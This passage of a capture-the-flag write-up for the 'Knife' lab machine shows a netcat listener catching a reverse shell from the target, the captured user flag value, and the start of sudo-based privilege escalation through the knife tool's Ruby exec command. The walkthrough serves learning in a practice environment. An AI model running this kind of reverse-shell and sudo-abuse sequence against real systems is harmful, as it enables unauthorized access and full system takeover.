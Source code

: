 To get the user flag, we can provide `cat` with an absolute path to the file `home/james/user.txt`.

```console
kali@kali:~$ nc -nlvp 4242
listening on [any] 4242 ...
connect to [10.10.16.31] from (UNKNOWN) [10.10.10.242] 39434
bash: cannot set terminal process group (971): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ cat home/james/user.txt
cat home/james/user.txt
ab1d0b385c48a4a85c9aa2486b0cd100
```

## Root Flag

### Privilege Escalation

First we have to check if there is any **sudo** commands this user can execute.

```console
james@knife:/$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

We can see that this user is allowed to use `/usr/bin/knife`. Let's do some research on `knife`.


After digging around Knife's documentation, we find a command that can execute Ruby code.

![knife](./images/knife.png)
**Figure 2:** `exec` command from Knife's documentation
